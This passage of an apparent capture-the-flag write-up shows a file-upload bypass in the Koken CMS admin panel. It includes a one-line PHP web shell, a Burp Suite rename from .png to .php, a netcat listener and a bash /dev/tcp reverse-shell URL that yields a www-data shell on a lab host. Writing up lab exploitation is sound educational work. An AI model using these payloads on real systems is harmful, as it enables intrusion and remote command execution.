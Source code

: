 I explored the Koken admin panel and found an "Import content" feature, which allows uploading images and videos.

<img width="1037" height="643" alt="image" src="https://github.com/user-attachments/assets/644a554c-d45e-48fb-b78c-e788f7fa9c14" />


The allowed file types were JPG, PNG, GIF, MP4. This suggested a potential file upload vulnerability.

I created a simple PHP web shell:

```php
<?php exec($_GET["cmd"]); ?>
```

I saved this as `shell.png`. My initial attempt to upload `shell.php.png` (a PHP shell disguised as a PNG, as used in a previous challenge) directly through the Koken interface resulted in it being treated as an image, not executed.

The key was to intercept the upload request using Burp Suite and change the filename extension from `.png` to `.php` in the HTTP request.

<img width="1038" height="687" alt="image" src="https://github.com/user-attachments/assets/f800fdcf-e01b-4097-ad2d-fb1d3a052c16" />


After modifying the request in Burp Suite and forwarding it, the upload was successful, and the Koken interface showed "1 items finished uploading to the Library".

<img width="1366" height="685" alt="image" src="https://github.com/user-attachments/assets/683e34da-25c8-4ca0-83fe-3e29193cd0a4" />


The uploaded shell was located at `/var/www/html/koken/storage/originals/47/1c/shell.php` (the `47/1c` part is a dynamically generated path based on Koken's internal storage).

## Reverse Shell

I set up a `netcat` listener on my attacking machine (Kali Linux) on port 4444:

```shellscript
nc -lnvp 4444
```

Then, I triggered the web shell by navigating to the uploaded file's URL with a `cmd` parameter containing a reverse shell command. The URL looked something like this:

`http://192.168.1.21:8000/storage/originals/47/1c/shell.php?cmd=/bin/bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.1.6/4444%200%3E%261%22`

<img width="993" height="406" alt="image" src="https://github.com/user-attachments/assets/cc1e9524-9cae-4711-9879-70e2a225fff0" />


Upon accessing this URL, I received a reverse shell on my `netcat` listener as the `www-data` user:

```plaintext
Connection received on 192.168.1.21 48084
bash: cannot set terminal process group (1242): Inappropriate ioctl for device
bash: no job control in this shell
www-data@photographer:/var/www/html/koken/storage/originals/47/1c$
```
